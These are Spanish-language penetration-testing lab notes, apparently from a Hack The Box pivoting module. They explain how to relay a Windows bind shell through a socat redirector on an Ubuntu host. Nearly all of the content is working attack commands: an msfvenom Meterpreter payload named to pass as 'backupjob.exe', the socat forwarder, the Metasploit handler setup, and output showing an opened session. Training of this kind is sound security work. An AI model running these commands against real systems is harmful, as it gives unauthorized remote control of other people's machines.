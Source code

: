 
De manera similar al redireccionador de reverse shell de nuestro socat, también podemos crear un redireccionador de bind shell con socat. 

Esto es diferente de las reverse shells, las cuales se conectan de vuelta desde el servidor Windows al servidor Ubuntu y se redirigen a nuestro host atacante. 

En el caso de las bind shells, el servidor Windows iniciará un listener y se enlazará a un puerto determinado. 
Podemos crear un payload de bind shell para Windows y ejecutarla en el host Windows. 
Al mismo tiempo, podemos crear un redireccionador socat en el servidor Ubuntu, que escuchará conexiones entrantes desde un Metasploit bind handler y las reenviará a una payload de bind shell en un objetivo Windows. 

La figura siguiente debería explicar el pivot de una manera mucho mejor.

![[Pasted image 20251023123342.png]]

## Creando el payload de Windows

```shell-session
Polika4RM@htb[/htb]$ msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupjob.exe LPORT=8443

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 499 bytes
Final size of exe file: 7168 bytes
Saved as: backupjob.exe
```

Podemos iniciar un escucha de shell de enlace socat, que escucha en el puerto 8080 y reenvía paquetes al servidor Windows 8443.

#### Inicializando el listener Socat Bind Shell
```shell-session
ubuntu@Webserver:~$ socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

Finalmente, podemos iniciar un controlador de enlace de Metasploit. Este controlador de enlace se puede configurar para conectarse al receptor de nuestro socat en el puerto 8080 (servidor Ubuntu).


#### Configuración e inicio del controlador/multibind
```shell-session
msf6 > use exploit/multi/handler

[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
payload => windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST 10.129.202.64
RHOST => 10.129.202.64
msf6 exploit(multi/handler) > set LPORT 8080
LPORT => 8080
msf6 exploit(multi/handler) > run

[*] Started bind TCP handler against 10.129.202.64:8080
```

Podemos ver un controlador de enlace conectado a una solicitud de etapa pivotada a través de un oyente socat al ejecutar la carga útil en un objetivo de Windows.

#### Establishing Meterpreter Session
```shell-session
[*] Sending stage (200262 bytes) to 10.129.202.64
[*] Meterpreter session 1 opened (10.10.14.18:46253 -> 10.129.202.64:8080 ) at 2022-03-07 12:44:44 -0500

meterpreter > getuid
Server username: INLANEFREIGHT\victor
```
